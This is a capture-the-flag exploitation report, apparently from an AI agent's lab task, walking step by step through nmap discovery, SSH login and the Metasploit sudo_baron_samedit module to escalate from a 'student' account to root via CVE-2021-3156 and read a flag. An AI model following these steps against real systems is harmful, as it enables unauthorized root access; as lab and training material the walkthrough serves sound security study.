 # Vulnerability Exploitation Report: CVE-2021-3156

## Vulnerability Overview
**CVE ID**: CVE-2021-3156  
**CVSS Score**: 7.8 (High)  
**Description**: The Baron Samedit vulnerability in `sudo` (versions including 1.8.31) allows local privilege escalation via a buffer overflow in the `sudoedit -s` command. This flaw enables an authenticated user to gain root privileges on the target system.

## Objective
Exploit the CVE-2021-3156 vulnerability on a target system to escalate privileges from a low-privileged user (`student`) to root and retrieve a flag file (`/root/flag.txt`) as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.3
- **Target Port**: 22 (SSH)
- **Attack Machine IP**: 192.168.0.5
- **Credentials**: Username: `student`, Password: `password`
- **Objective**: Retrieve the contents of `/root/flag.txt`

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.3) to confirm the presence of SSH or other services.

```
nmap -sV 192.168.5.3
```

### Step 3: SSH Connection
Connect to the target system via SSH using the provided credentials.

```
SSHConnect(ssh_ipaddr='192.168.5.3', ssh_port='22', ssh_username='student', ssh_password='password')
```

### Step 4: Verify Sudo Version
Check the version of `sudo` on the target system to confirm it is vulnerable (e.g., 1.8.31).

```
sudo -V
```

### Step 5: Launch Metasploit
Start the Metasploit Framework to access exploit modules.

```
msfconsole
```

### Step 6: Search for SSH Login Module
Search for a Metasploit module to authenticate via SSH.

```
search ssh login
```

### Step 7: Select SSH Login Module
Choose the Metasploit module for SSH login to establish a session.

```
use auxiliary/scanner/ssh/ssh_login
```

### Step 8: Review Module Details
Display information about the SSH login module to understand its options.

```
info
```

### Step 9: Configure SSH Login
Set the target host, username, and password for the SSH login attempt.

```
set RHOSTS 192.168.5.3
```

```
set USERNAME student
```

```
set PASSWORD password
```

### Step 10: Execute SSH Login
Run the SSH login module to establish a session on the target system.

```
run
```

### Step 11: Search for Sudo Exploit
Search Metasploit for an exploit module targeting the `sudo` Baron Samedit vulnerability (CVE-2021-3156).

```
search sudo 1.8.31
```

### Step 12: Select Sudo Exploit Module
Choose the Metasploit module for the Baron Samedit privilege escalation vulnerability.

```
use exploit/linux/local/sudo_baron_samedit
```

### Step 13: Review Exploit Details
Display information about the selected exploit module to understand its requirements.

```
info
```

### Step 14: Configure Exploit Session
Set the Metasploit session ID for the exploit to use the established SSH session.

```
set SESSION 1
```

### Step 15: Execute the Exploit
Run the exploit to escalate privileges to root.

```
exploit
```

### Step 16: Retrieve the Flag
Read the contents of the `flag.txt` file in the `/root` directory.

```
cat /root/flag.txt
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: Upg3TfoBWoMCxCqv